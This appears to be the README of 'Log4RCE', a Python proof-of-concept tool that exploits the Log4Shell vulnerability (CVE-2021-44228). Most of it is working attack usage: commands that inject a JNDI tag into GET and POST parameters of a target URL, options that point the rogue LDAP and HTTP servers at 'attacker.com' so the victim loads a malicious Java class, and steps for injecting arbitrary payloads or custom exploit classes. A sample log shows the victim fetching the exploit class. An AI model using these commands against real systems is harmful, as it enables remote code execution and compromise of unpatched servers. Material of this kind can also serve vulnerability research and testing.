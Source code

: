 # Python Log4RCE

An all-in-one pure Python3 PoC for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228).

## Sample

```bash
> python3 log4rce.py --target "linux" --payload "PAYLOAD" http --url "http://localhost:8080/" --data "address=###"
```

```
INFO:root:HTTP -> Running on local port 1337
INFO:root:Target Class -> http://127.0.0.1:1337/LinuxExploit.class
INFO:root:LDAP -> Running on local port 1387
INFO:root:HTTP -> Sending payload to http://localhost:8080/
127.0.0.1 - - [12/Dec/2021 20:59:55] "GET /LinuxExploit.class HTTP/1.1" 200 -
INFO:root:Done!
```

## Usage

This is a CLI tool. All options can be found in the help menu:

```
python3 log4rce.py --help
```

The list is pretty extensive, therefore the following will give you a summary of the functionality.

### Attack Modes

The tool allows you to use a few attack modes. These attacks are extensions of the `Log4RCE` class.

#### HTTP

You can perform an automated HTTP request attack on a target URL.

You can perform a GET request as follows:

```
python3 log4rce.py http --url "http://www.vuln.com:1234/?vuln_param=###&param=123" --headers="P1=123&P2=123"
```

You can perform a POST request as follows:

```
python3 log4rce.py http -X POST --url "http://www.vuln.com:1234/" --data "vuln_param=###&param=123" --headers="P1=123&P2=123"
```

The previous will inject the JNDI tag into `###`.

#### Manual

If you cannot use any of the previous, use this mode to dump the JDNI tag:

```bash
python3 log4rce.py manual
```

### Network Settings

The tool allows extensive customization for most network configuration. All the internal servers can be modified to point to different locations according the the remote settings.

#### HTTP Server

You can configure the HTTP server using the following parameters:

```
python3 log4rce.py --http_port 1234 --http_rport 12345 --http_host "attacker.com"
```

```
http_port: The local port to run the server on.
http_rport: The port that a remote machine accesses.
http_host: The host name/IP a remote machine accesses. 
```

#### LDAP Server

You can configure the LDAP server using the following parameters:

```
python3 log4rce.py --ldap_port 1234 --ldap_rport 12345 --ldap_host "attacker.com"
```

```
ldap_port: The local port to run the server on.
ldap_rport: The port that a remote machine accesses.
ldap_host: The host name/IP a remote machine accesses. 
```

### Customization

The tool allows can handle some customization. The following lists some functionality you may be interested in.

### Injecting Payload

You can inject a payload into the Java class using:

```bash
python3 log4rce.py --payload "PAYLOAD"
```

The payload will be injected into `"###"` strings.

### Custom Java Payload

You can build your own Java class using the following. 

```bash
javac /path/to/Exploit.java
```

The resulting `.class` can be run using:

```bash
python3 log4rce.py --java_class "/path/to/Exploit.class" ...
```

Note: You can add a string `"###"` to allow payload injection.
